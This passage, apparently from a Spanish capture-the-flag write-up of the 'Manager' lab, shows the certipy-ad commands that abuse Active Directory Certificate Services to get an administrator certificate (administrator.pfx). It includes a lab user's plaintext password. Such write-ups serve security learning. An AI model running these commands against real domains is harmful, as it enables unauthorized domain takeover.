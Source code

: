 Finalmente, ejecutamos el comando para **recuperar** el certificado emitido con el ID **22**, lo que nos da el certificado solicitado y nos permite usarlo para autenticar como **administrator@manager.htb** o realizar otras acciones para escalar privilegios dentro del dominio.

{% code overflow="wrap" %}
```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer Raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb

certipy-ad ca -ca 'manager-DC01-CA' -issue-request 22 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target dc01.manager.htb -retrieve 22
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1452_vmware_6kqN4DMpwk.png" alt=""><figcaption></figcaption></figure>

Conprobaremos que se nos ha generado un archivo (administrator.pfx)

<figure><img src="../../../../../.gitbook/assets/1453_vmware_tQUg9EjVlW.png" alt=""><figcaption></figcaption></figure>
